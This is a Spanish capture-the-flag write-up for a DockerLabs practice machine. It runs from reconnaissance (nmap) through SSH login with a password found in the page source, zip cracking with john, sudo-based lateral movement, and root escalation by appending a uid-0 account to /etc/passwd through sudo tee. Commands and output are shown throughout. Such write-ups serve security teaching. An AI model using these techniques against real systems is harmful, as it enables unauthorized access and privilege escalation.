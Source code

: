 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ecc3fb2c-167d-486e-8cdd-675ce694d1bf)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp(HTTP):** Apache httpd
2.  **8899/tcp(SSH):** OpenSSH 6.6p1

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Sobre el Asucar Moreno.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ed12e4c5-06ca-4434-b859-f7f83dbfc3e8)

# Fase 2- Exploración

#### Rosa
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5ff59e6a-620e-4a99-b8d4-c7cbc16a4f94)
En la misma web nos aparece que despidieron a una tal `Rosa` en la otra empresa que trabajo, por no guardar bien sus contraseñas.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/062f2eb8-8c8c-41c7-9b7a-da6edaf9e9f3)
En la parte de formulario en el apartado de `Second Product` aparece un texto que dice `Brief description rosa`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/37134a9e-a328-4ff9-ace2-5f2287bf7407)

Buscando en el codigo encontramos una posible contraseña, `lacagadenuevo`.

#### Fase 3- Explotación

#### ssh
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c50b6c84-0f01-46b2-bb7b-85a364f65afc)

Y nos conectamos por ssh al puerto `8899` con el user `rosa`.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5d71c425-e546-465d-9fb6-b86546b64a87)

Despues de realizar el tratamiento de la TTY, y ver que no podemos ejecutar ningún binario como usuario root, procedemos a buscar entre los directorios encontrando un archivo .txt llamado `irresponsable.txt` en el directorio `/home/rosa/-/`.

#### Irresponsable.txt
```python
rosa@2ab830946bcd:~$ cat /home/rosa/-/irresponsable.txt 
Hola rosa soy juan como ya conocemos tus irresposabilidades de otras empresas te voy a dejar mi contraseña en un fichero .zip, captúralo para no volver a ser despedida.
Con cariño pero nos pones a todos en riesgo.
Seguro no trabajaste tambien en Decathlon ....
Un poco de acoso laboral......
```
El fichero .zip es la contraseña del usuario `Juan`.

#### backup_rosa.zip
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/028fa583-cafe-4c47-984d-c38a7f593527)
Nos transferimos el archivo de la maquina victima a nuestra maquina atacante con python. El comando es:
```python
Rosa: python3 -m http.server 9000
Atacante: wget http://172.18.0.2:9000/rosa/-/backup_rosa.zip
```

```python
❯>> zip2john backup_rosa.zip > zip.hash
ver 1.0 efh 5455 efh 7875 backup_rosa.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=25, decmplen=13, crc=6A3D5968 ts=1B29 cs=1b29 type=0
❯>> john zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
123123           (backup_rosa.zip/password.txt)     
1g 0:00:00:00 DONE 2/3 (2024-06-16 10:34) 33.33g/s 2046Kp/s 2046Kc/s 2046KC/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Y ya lo tenemos, la contraseña del .zip es 123123.

```python
unzip backup_rosa.zip
Archive:  backup_rosa.zip
[backup_rosa.zip] password.txt password: 123123
 extracting: password.txt 
❯ cat password.txt
   1   │ hackwhitbash
```

#### Juan
```python
rosa@2ab830946bcd:/home$ su juan
Password: hackwhitbash
juan@2ab830946bcd:/home$ 
```
Y somos el usuario `Juan`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/11caacf6-b95b-44a1-8417-fd517e30b9b6)
Con `Juan` podemos ejecutar los binarios `tree` y `cat` como el usuario `Carlos`.


![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2b023eeb-6ecd-4c8c-83fb-49c84a75b54e)

Usando el binario `tree` vemos que dentro de `/home/carlos/` existe un fichero llamado `password`
```python
juan@2ab830946bcd:/home$ sudo -u carlos /usr/bin/cat /home/carlos/password
chocolateado
```
Y leemos la password.

```python
juan@2ab830946bcd:/home$ su carlos
Password: 
carlos@2ab830946bcd:/home$ sudo -l
[sudo] password for carlos: 
Matching Defaults entries for carlos on 2ab830946bcd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 2ab830946bcd:
    (ALL : NOPASSWD) /usr/bin/tee
```
Somos el usuario `Carlos` y podemos ejecutar el binario `tee` como usuario `root`.

```python
carlos@2ab830946bcd:/home$ openssl passwd -1 -salt "firstatack" "pass"
$1$firstata$KaJwXv0namG9OzwTOxpN61
carlos@2ab830946bcd:/home$ printf 'firstatack:$1$firstata$KaJwXv0namG9OzwTOxpN61:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
firstatack:$1$firstata$KaJwXv0namG9OzwTOxpN61:0:0:root:/root:/bin/bash
carlos@2ab830946bcd:/home$ su firstatack
Password: 
su: Authentication failure
carlos@2ab830946bcd:/home$ su firstatack
Password: 
root@2ab830946bcd:/home# whoami
root
root@2ab830946bcd:/home# 
```
Se creó una contraseña encriptada para el usuario "firstatack" usando `openssl`. Luego, se añadió este usuario al archivo `/etc/passwd` con privilegios de root. Tras un intento fallido de iniciar sesión, se logró acceder como root en el segundo intento.

